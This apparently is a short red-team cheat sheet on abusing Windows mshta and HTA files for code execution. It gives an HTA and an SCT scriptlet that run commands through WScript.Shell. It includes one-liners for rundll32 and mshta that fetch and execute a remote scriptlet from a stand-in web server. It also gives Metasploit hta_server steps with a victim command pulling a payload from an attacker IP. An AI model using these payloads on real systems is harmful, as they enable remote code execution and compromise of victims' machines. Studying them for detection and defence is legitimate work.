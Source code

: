 **You can download & execute very easily a Koadic zombie using the stager hta**

#### hta example

```markup
<html>
<head>
<HTA:APPLICATION ID="HelloExample">
<script language="jscript">
        var c = "cmd.exe /c calc.exe"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>
```

**Extracted from** [**here**](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)

#### **mshta - sct**

```markup
<?XML version="1.0"?>
<!-- rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:http://webserver/scriplet.sct");window.close();  -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")")) -->
<!-- mshta vbscript:Close(Execute("GetObject(""script:C:\local\path\scriptlet.sct"")")) -->
<scriptlet>
<public>
</public>
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</scriptlet>
```

**Extracted from** [**here**](https://gist.github.com/Arno0x/e472f58f3f9c8c0c941c83c58f254e17)

#### **Mshta - Metasploit**

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```bash
Victim> mshta.exe //192.168.1.109:8080/5EEiDSd70ET0k.hta #The file name is given in the output of metasploit
```
